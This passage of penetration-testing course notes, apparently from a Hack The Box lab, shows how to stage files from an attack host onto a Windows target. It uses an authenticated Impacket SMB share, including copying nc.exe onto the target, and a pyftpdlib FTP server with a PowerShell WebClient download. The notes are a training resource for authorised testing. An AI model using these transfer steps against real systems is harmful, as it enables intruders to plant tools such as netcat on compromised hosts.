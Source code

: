 * We can set a username and password using our Impacket SMB server and mount the SMB server on our windows target machine

```sh
$ sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

#### Mount the SMB Server with Username and Password
```powershell
C:\htb> net use n: \\192.168.220.133\share /user:test test

The command completed successfully.

C:\htb> copy n:\nc.exe
        1 file(s) copied.
```

**Note:** You can also mount the SMB server if you receive an error when you use `copy filename \\IP\sharename`.

### FTP Downloads
* We can use the FTP client or PowerShell Net.WebClient to download files from an FTP server
* Configure an FTP Server in our attack host using Python3 `pyftpdlib` module

```sh
$ sudo pip3 install pyftpdlib
```

* By default, `pyftpdlib` uses port 2121
* Anonymous authentication is enabled by default if we don't set a user and password

```sh
$ sudo python3 -m pyftpdlib --port 21

[I 2022-05-17 10:09:19] concurrency model: async
[I 2022-05-17 10:09:19] masquerade (NAT) address: None
[I 2022-05-17 10:09:19] passive ports: None
[I 2022-05-17 10:09:19] >>> starting FTP server on 0.0.0.0:21, pid=3210 <<<
```

#### Transferring Files from an FTP Server Using PowerShell
```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'ftp-file.txt')
```

* If we don't have an interactive shell, we can create an FTP command file to download a file
